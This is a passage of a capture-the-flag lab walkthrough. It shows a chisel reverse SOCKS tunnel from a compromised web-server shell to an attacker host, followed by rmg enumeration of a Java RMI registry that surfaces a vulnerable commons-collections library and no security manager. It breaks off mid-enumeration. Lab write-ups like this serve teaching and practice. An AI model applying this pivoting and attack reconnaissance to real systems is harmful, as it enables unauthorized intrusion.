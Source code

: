 ```
1099/tcp open  rmiregistry

Nmap done: 1 IP address (1 host up) scanned in 13.04 seconds

```

To connect, we will use `chisel` to tunnel over port 1080
```
www-data@blog:/tmp$ ./chisel client 10.10.14.5:9999 R:socks & 
[2] 1708
www-data@blog:/tmp$ 2025/08/01 04:35:26 client: Connecting to ws://10.10.14.5:9999
2025/08/01 04:35:29 client: Connected (Latency 305.857693ms)

┌──(wither㉿localhost)-[/opt/chisel]
└─$ chisel server --reverse --port 9999
2025/08/01 14:27:40 server: Reverse tunnelling enabled
2025/08/01 14:27:40 server: Fingerprint 73NUS791NothnUp3hrXSYWKbv0TYP4UXr1jfeko18e0=
2025/08/01 14:27:40 server: Listening on http://0.0.0.0:9999
2025/08/01 14:28:27 server: session#1: Client version (1.10.1) differs from server version (1.10.1-0kali1)
2025/08/01 14:28:27 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```

We can use `rmg` to enumerate the `rmi`
```
┌──(wither㉿localhost)-[~/Templates/htb-labs/Synacktiv]
└─$ proxychains -q java -jar rmg-5.1.0-jar-with-dependencies.jar enum 172.22.1.250 1099
[+] RMI registry bound names:
[+]
[+]     - monitoring
[+]             --> com.synacktiv.IMonitoringService (unknown class)
[+]                 Endpoint: 172.22.1.250:1337  CSF: RMISocketFactory  ObjID: [ccfc52e:19863a135cb:-7fff, -1590371508209022984]
[+]
[+] RMI server codebase enumeration:
[+]
[+]     - rsrc:./ jar:rsrc:json-lib-2.4-jdk15.jar!/ jar:rsrc:ezmorph-1.0.6.jar!/ jar:rsrc:commons-logging-1.1.1.jar!/ jar:rsrc:commons-lang-2.5.jar!/ jar:rsrc:commons-collections-3.2.1.jar!/ jar:rsrc:commons-beanutils-1.8.0.jar!/
[+]             --> com.synacktiv.IMonitoringService
[+]
[+] RMI server String unmarshalling enumeration:
[+]
[+]     - Server complained that object cannot be casted to java.lang.String.
[+]       --> The type java.lang.String is unmarshalled via readString().
[+]       Configuration Status: Current Default
[+]
[+] RMI server useCodebaseOnly enumeration:
[+]
[+]     - RMI registry uses readString() for unmarshalling java.lang.String.
[+]       This prevents useCodebaseOnly enumeration from remote.
[+]
[+] RMI registry localhost bypass enumeration (CVE-2019-2684):
[+]
[+]     - Registry rejected unbind call cause it was not sent from localhost.
[+]       Vulnerability Status: Non Vulnerable
[+]
[+] RMI Security Manager enumeration:
[+]
[+]     - Caught Exception containing 'no security manager' during RMI call.
[+]       --> The server does not use a Security Manager.
[+]       Configuration Status: Current Default
[+]
[+] RMI server JEP290 enumeration:
```